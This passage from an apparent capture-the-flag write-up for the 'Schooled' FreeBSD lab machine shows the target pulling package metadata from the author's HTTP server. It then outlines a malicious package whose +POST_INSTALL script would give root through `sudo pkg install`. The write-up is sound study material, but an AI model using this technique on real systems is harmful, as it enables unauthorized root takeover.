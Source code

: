 The server sees three requests (all 404):

```

oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.conf HTTP/1.1" 404 -
10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.txz HTTP/1.1" 404 -
10.10.10.234 - - [06/Apr/2021 08:18:58] code 404, message File not found
10.10.10.234 - - [06/Apr/2021 08:18:58] "GET /packages/packagesite.txz HTTP/1.1" 404 -

```

Similarly, the `install` command will contact me as well, requesting the same three files:

```

jamie@Schooled:~ $ sudo pkg install pwned
Updating FreeBSD repository catalogue...
pkg: http://devops.htb/packages/meta.txz: Not Found
repository FreeBSD has no meta file, using default settings
pkg: http://devops.htb/packages/packagesite.txz: Not Found
Unable to update repository FreeBSD
Error updating repositories!

```

These files tell the client (Schooled) about the packages that the server is hosting, versions, etc.

### Generate Package

#### Overview

Now that I can make Schooled contact my VM requesting updates / packages, I will make a malicious package that will enable root access. There’s an entire chapter [in the FreeBSD docs](https://docs.freebsd.org/en_US.ISO8859-1/books/porters-handbook/own-port.html) about making a new Port (what FreeBSD calls a package). [This post](http://lastsummer.de/creating-custom-packages-on-freebsd/) gives a simpler path to creating a package. In a staging directory, I’m going to create a few files:
- `+POST_INSTALL` - This is the file that will run on install.
- `+MANIFEST` - Metadata about the package.
- `usr/local/etc/my.conf` - This is a fake conf file that will be dropped into place on the installing system.
- `plist` - Information about that conf file.

Then I need to run some `pkg` commands to create the package and the repo files. `pkg create` (doesn’t need to be run as root) will create a package archive file. `pkg repo` will:

> ```

> Create a local package repository for remote usage.
>
> ```
